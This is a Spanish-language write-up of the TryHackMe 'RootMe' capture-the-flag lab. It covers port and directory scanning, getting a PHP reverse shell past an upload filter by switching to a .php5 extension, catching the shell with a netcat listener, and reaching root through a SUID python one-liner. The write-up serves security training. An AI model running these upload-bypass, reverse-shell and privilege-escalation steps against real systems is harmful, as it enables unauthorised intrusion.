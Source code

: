 ```yaml
---
title:  "RootMe Writeup [ES] - TryHackMe"
date:   2021-04-02 04:00:00 -0400
categories: [THM]
toc: true
comments: false
tags: [privesc]
---
```


En esta ocasión estaré resolviendo el lab [RootMe](https://www.tryhackme.com/room/rrootme) de la plataforma **TryHackMe**. Esta máquina es bastante sencilla como se verá a continuación.

## Lab info

![Lab Info](/images/THM/RootMe/00-lab-info.png "Machine Info")


## Task 1 - Deploy the machine

Desplegar la máquina, no requiere respuesta.

## Task 2 - Reconnaissance

1 - Scan the machine, how many ports are open?
``` 
2
```
Según el escáner realizado con **nmap**, podemos ver que existen 2 puertos abiertos. Se han utilizado los siguientes comandos:

* ```nmap -p- -sS --min-rate 4000 -n -v 10.10.253.211 -oG allPorts.gnmap```
* ```nmap -sC -sV -p22,80 10.10.253.211 -oN ports.nmap```


```plaintext
Nmap scan report for 10.10.253.211
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 - What version of Apache is running?
```
2.4.29
```
Esta información se puede visualizar desde el escaner nmap o realizando ```whatweb http://10.10.253.211```

```plaintext
http://10.10.253.211 [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.253.211], Script, Title[HackIT - Home]
```
Desde el navegador se visualiza la siguiente home page:

![Web Page](/images/THM/RootMe/05-web-page.png)

3 - What service is running on port 22?
```
SSH
```

4 - Find directories on the web server using the GoBuster tool.
```
No requiere respuesta
```
5 - What is the hidden directory?

```
/panel/
```

Gobuster scan: 

* ```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.253.211/ -t 300 --no-error```

```plaintext
===============================================================
2021/04/02 19:02:50 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.253.211/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.253.211/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.253.211/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.253.211/panel/]
```

## Task 3 - Getting a shell

Para esta tarea la plataforma solicita obtener una shell en base a lo que se ha descubierto anteriormente. Para ello revisamos la ruta ```http://10.10.253.211/panel/``` en donde se visualiza un panel para subir archivos.

![Panel](/images/THM/RootMe/10-web-upload-page.png)

Esto nos hace pensar que es posible subir un archivo que nos entable una reverse shell. Para que funcione, debemos saber que lenguaje interpretará la página. Revisando en Wappalyzer vemos que la web está construida en ```php```

![PHP](/images/THM/RootMe/15-web-upload-language.png)

Sabiendo esto, yo recomiendo utilizar el recurso de [Pentest Monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) para la reverse shell con PHP.

Descargamos el archivo y lo editamos para asegurarnos de definir nuestra IP y Puerto en el que queremos recibir la shell.

![RSHELL](/images/THM/RootMe/20-reverse-shell-php.png)

Probamos a subir el archivo y nos encontramos con el siguiente mensaje:

![Web Error](/images/THM/RootMe/26-web-error.png)

Lo que nos da a entender que la extensión del archivo no es válida.

Para lidiar con esto, lo que se puede hacer es crear múltiples archivos con distinta extensión y probar uno a uno o bien realizar esta comprobación con **BurpSuite** lo cual resulta más cómodo. Recordar que existe un [room](https://www.tryhackme.com/room/rpburpsuite) en la plataforma de TryHackMe donde se puede aprender a utilizar BurpSuite desde cero.

Dicho lo anterior, lo que se debe hacer es interceptar la subida del archivo y analizar la respuesta del lado del servidor hasta que nos dé una respuesta satisfactoria.

Se intercepta la petición realizada por el navegador y posteriormente se envía al repeater. En la izquierda tenemos la petición realizada con un archivo con extensión ```.php``` y en la derecha se visualiza la respuesta indicando que la extensión no es válida.

![Burp Error](/images/THM/RootMe/30-burp-error.png)

Cambiamos la extensión y vemos que la respuesta ahora es satisfactoria. Esta respuesta se obtiene con las extensiones ```.php2``` ```.php3``` ```.php4``` ```.php5```.

![Burp Ok](/images/THM/RootMe/35-burp-ok.png)

En mi caso subiré el archivo como rshell.php5

![Web Ok](/images/THM/RootMe/41-web-ok.png)

Como se aprecia en la imagen, se obtiene una respuesta exitosa y haciendo hovering en el texto señalado se obtiene la ruta del archivo que fue subido. En mi caso la ruta es: ```http://10.10.253.211/uploads/rshell.php5```

Ahora, con netcat abrimos el canal para la escucha tráfico en el puerto 443 que definimos anteriormente.

```bash
nc -nlvp 443
listening on [any] 443 ...
```

Y ejecutamos el archivo en el navegador para obtener una shell con el usuario www-data.

```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.13.0.103] from (UNKNOWN) [10.10.253.211] 35932
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:23:22 up  3:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
la flag de este usuario se encuentra en ```/var/www/user.txt```.

```bash
THM{y0u_**********}
```

## Task 4 - Privilege escalation

Para la fase de escalada de privilegios lo primero sería hacer una búsqueda de archivos con permiso SUID habilitado.

```bash
$ find \-perm -4000 2>/dev/null | grep -v "snap"

./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec
./bin/mount
./bin/su
./bin/fusermount
./bin/ping
./bin/umount
```

En base a lo obtenido y haciendo uso de la web [GTFObins](https://gtfobins.github.io/), podemos identificar que se puede explotar python para obtener una shell con privilegios elevados. En la sección de SUID nos indican como realizarlo.

![Web Ok](/images/THM/RootMe/45-gtfobins.png)


```bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

Por último se realiza una lectura de la flag ubicada en /root/root.txt

```bash
THM{pr1v1l**********}
```
Eso concluye la última pregunta de este lab.